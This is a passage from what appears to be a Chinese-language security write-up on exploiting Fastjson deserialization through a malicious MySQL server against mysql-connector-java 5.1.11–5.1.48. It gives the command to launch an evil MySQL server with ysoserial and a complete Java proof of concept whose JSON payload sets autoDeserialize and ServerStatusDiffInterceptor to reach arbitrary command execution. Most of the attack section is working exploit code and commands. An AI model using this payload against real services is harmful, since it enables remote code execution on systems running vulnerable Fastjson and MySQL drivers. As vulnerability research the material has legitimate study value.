 ```java

            return getBytes(columnIndex);

            // 代码省略
    }
}
```

可以看到在处理“大字符串”时会进行反序列化，当 JDBC 首次连接MySQL服务器时，会主动使用sql查询（不同版本的JDBC查询的内容略有不同），恶意Mysql服务器即可返回我们构造好的恶意数据，最后就可以触发任意命令执行。

恶意MySQL服务可以使用 python3实现的 https://github.com/fnmsd/MySQL_Fake_Server

也可以使用我参考 `MySQL_Fake_Server` 后用 Go 实现的 https://github.com/dushixiang/evil-mysql-server

以 mysql-connector-java 5.1.11 为例，先启动恶意Mysql 服务端。

> 这里没有使用自己构造恶意数据，而是使用了一个开源的 Java 反序列化工具 ysoserial

```bash
./evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```

### 测试代码

> 需要pom依赖中存在 `commons-collections 3.1`

```java
import com.alibaba.fastjson.JSON;

public class Evil6 {

    public static void main(String[] args) {
        // 5.1.11-5.1.48(反序列化链)
        String json = "{\n" +
                "  \"@type\": \"java.lang.AutoCloseable\",\n" +
                "  \"@type\": \"com.mysql.jdbc.JDBC4Connection\",\n" +
                "  \"hostToConnectTo\": \"127.0.0.1\",\n" +
                "  \"portToConnectTo\": 3306,\n" +
                "  \"info\": {\n" +
                "    \"user\": \"yso_CommonsCollections5_calc\",\n" +
                "    \"password\": \"pass\",\n" +
                "    \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\",\n" +
                "    \"autoDeserialize\": \"true\",\n" +
                "    \"NUM_HOSTS\": \"1\"\n" +
                "  },\n" +
                "  \"databaseToConnectTo\": \"dbname\",\n" +
                "  \"url\": \"\"\n" +
                "}";
        JSON.parseObject(json);
    }
}
```

